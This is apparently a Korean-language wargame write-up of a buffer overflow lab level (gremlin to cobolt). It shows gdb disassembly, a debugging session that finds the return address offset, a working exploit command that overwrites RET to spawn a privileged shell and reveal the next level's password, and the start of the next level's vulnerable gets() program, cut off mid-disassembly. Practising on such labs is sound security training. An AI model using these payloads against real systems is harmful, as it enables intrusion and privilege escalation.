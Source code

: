 ```asm
0x8048476 <main+70>:	add    %esp,8
0x8048479 <main+73>:	leave
0x804847a <main+74>:	ret
```
### 3. exploit code
```
Starting program: /home/gremlin/test `python -c 'print "A"*22'`
AAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x804847a in main ()
(gdb) ni
0x40004141 in print_missing_version (errcode=Cannot access memory at address 0x41414149
) at rtld.c:1176
1176	rtld.c: No such file or directory.
(gdb) x/x $eip
0x40004141 <print_missing_version+53>:	0xcd9f838d
```
22개의 A 입력 시 eip에 2개가 들어가게 된다. 즉 24 byte까지 넣어야 하는데,
현재 왜 20 위치 부터 eip가 시작되는지 모르겠다.
-> 아 실수 ..... ebp-16 위치부터 buffer 값을 입력받는다.
0 - 16 까지 buffer
16 - 20 까지 SFP
20 - 24 까지 RET
이렇게 되는 구나


```exploit
./cobolt `python -c 'print "A"*20+"\xe0\x8a\x05\xAAA"+"\xf9\xbf\x0f\x40"'`
bash$ id

uid=501(gremlin) gid=501(gremlin) euid=502(cobolt) egid=502(cobolt)
groups=501(gremlin)

bash$ my-pass

euid = 502

hacking exposed
```


## cobolt

### 1. source code
```c
int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
### 2. gdb
```asm
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %ebp,%esp
0x80483fb <main+3>:	sub    %esp,16
0x80483fe <main+6>:	lea    %eax,[%ebp-16]
0x8048401 <main+9>:	push   %eax
0x8048402 <main+10>:	call   0x804830c <gets>
0x8048407 <main+15>:	add    %esp,4
0x804840a <main+18>:	lea    %eax,[%ebp-16]
0x804840d <main+21>:	push   %eax
```